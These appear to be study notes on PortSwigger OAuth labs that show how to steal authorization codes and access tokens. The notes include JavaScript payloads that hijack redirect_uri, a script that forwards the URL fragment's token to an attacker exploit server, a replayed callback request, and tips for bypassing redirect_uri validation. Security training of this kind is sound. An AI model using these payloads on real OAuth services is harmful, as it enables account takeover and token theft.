 - use an attacker controlled url in the `redirect_uri` paramter so the access token or auth token be sent to the attacker
- using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser. 
```html
<script>
    location = "https://oauth-0a2900880318c1f383674934029a0058.oauth-server.net/auth?client_id=cdtbbxmaau7pdqmqigriz&redirect_uri=https://exploit-0af10059037bc1d283cf4a0601cb009e.exploit-server.net/&response_type=code&scope=openid%20profile%20email"
</script>
```
- then the attacker uses it 
```http
GET /oauth-callback?code=qstUn8gNn422ul5M0BB0E_WEE3TJ-nHl9HLY4BWLj4u HTTP/2
Host: 0ae4003b03f6c1d9833e4bba005c00d9.web-security-academy.net
Cookie: session=RvqvIt8dy47qEglKbbm5l6tHNNVX57VO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
```


**NOTE:** 

changing the response_mode from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri`, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the `web_message` response mode is supported, this often allows a wider range of subdomains in the `redirect_uri`. 

### Stealing OAuth access tokens via an open redirect

```html
<script>
   if (!window.location.hash){
    location = "https://oauth-0a3100a404224fce822cff8e0216008e.oauth-server.net/auth?client_id=gephlxm18wdavk0znqj6v&redirect_uri=https://0ac1001e04044f368374017000510051.web-security-academy.net/oauth-callback/../post/next?path=https%3a//exploit-0acc000804e34fc1836c000e01df0060.exploit-server.net/exploit&response_type=token&nonce=-1402771748&scope=openid%20profile%20email";

   } else {
    location = "https://exploit-0acc000804e34fc1836c000e01df0060.exploit-server.net/exploit?token=" + window.location.hash.substring(1);
   }
</script>
```

### Stealing OAuth access tokens via a proxy page and gadgets on the site 

in this lap from [portswigger](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page) we found a script in a page tha can be used + iframe to steal access tokens

``` html
       <script>
            parent.postMessage({type: 'onload', data: window.location.href}, '*')
            function submitForm(form, ev) {
                ev.preventDefault();
                const formData = new FormData(document.getElementById("comment-form"));
                const hashParams = new URLSearchParams(window.location.hash.substr(1));
                const o = {};
                formData.forEach((v, k) => o[k] = v);
                hashParams.forEach((v, k) => o[k] = v);
                parent.postMessage({type: 'oncomment', content: o}, '*');
                form.reset();
            }
        </script>
```
